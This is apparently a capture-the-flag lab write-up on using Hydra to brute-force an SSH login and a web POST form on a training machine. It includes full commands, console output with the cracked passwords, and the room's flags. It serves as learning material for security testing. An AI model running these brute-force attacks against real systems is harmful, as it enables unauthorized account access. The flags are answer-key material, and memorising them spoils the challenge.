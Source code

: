 # Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```hydra -l user -P passlist.txt ftp://192.168.0.1```

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).
## SSH

```hydra -l <username> -P <full path to pass> <ip> -t 4 ssh```
[-h](https://i.imgur.com/D71vkKM.png)

```console
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.39.3 -t 4 ssh
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 12:51:58
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.39.3:22/
[22][ssh] host: 10.10.39.3   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 12:52:51
kali@kali:~$ ssh molly@10.10.39.3
The authenticity of host '10.10.39.3 (10.10.39.3)' can't be established.
ECDSA key fingerprint is SHA256:CvZ/M3lLX1Nv/BtNNW9Cb+JYa2z85ldNGQdNp0HwQ9U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.39.3' (ECDSA) to the list of known hosts.
molly@10.10.39.3's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-39-3:~$ ls
flag2.txt
molly@ip-10-10-39-3:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```
flag = ```THM{c8eeb0468febbadea859baeb33b2541b}```


## Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

```hydra -l  -P  <ip> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V```

- [-h](https://i.imgur.com/vC3ZU4E.png)
- [check this to understand how to use it](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)



```console
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.39.3 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 13:09:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.39.3:80/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect.
[80][http-post-form] host: 10.10.39.3   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 13:09:29
```
```html
<body>

    <div class="jumbotron text-center">
      <h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
    </div>

    <script src="/js/jquery.slim.min.js"></script>
    <script src="/js/popper.min.js"></script>
    <script src="/js/bootstrap.min.js"></script>
</body>
```

flag = ```THM{2673a7dd116de68e85c48ec0b1f2612e}```